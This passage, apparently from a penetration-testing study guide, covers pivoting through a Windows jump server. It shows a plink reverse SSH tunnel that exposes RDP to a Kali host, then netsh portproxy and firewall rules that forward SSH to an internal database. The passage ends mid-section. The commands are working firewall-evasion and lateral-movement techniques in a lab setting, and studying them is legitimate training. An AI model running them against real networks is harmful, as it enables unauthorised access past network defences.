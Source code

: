 *KALI <- FIREWALL <- WINDOWS JUMP SERVER*

##### Kali

```bash
find / -name plink.exe 2>/dev/null
/usr/share/windows-resources/binaries/plink.exe
```

##### Windows Jump Server

```powershell
plink.exe -ssh -l <USERNAME> -pw <PASSWORD> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.50.10
```

##### Kali

```bash
ss -tulpn
xfreerdp /u:<USERNAME> /p:<PASSWORD> /v:127.0.0.1:9833
```

###  6.7. <a name='netsh'></a>Netsh

| Sistema             | IP             |
| ------------------- | -------------- |
| KALI                | 192.168.50.10  |
| WEB                 | 192.168.100.10 |
| WINDOWS JUMP SERVER | 192.168.100.20 |
| DATABASE            | 10.10.100.20   |
| WINDOWS - SHARES    | 172.16.50.10   |


*KALI <- FIREWALL <- WINDOWS JUMP SERVER -> DATABASE*

##### Kali

```bash
xfreerdp /u:<USERNAME> /p:<PASSWORD> /v:192.168.100.20
```

##### Windows Jump Server

```powershell
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.10 connectport=22 connectaddress=10.10.100.20
netstat -anp TCP | findstr "2222"
netsh interface portproxy show all
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.10 localport=2222 action=allow
```

##### Kali
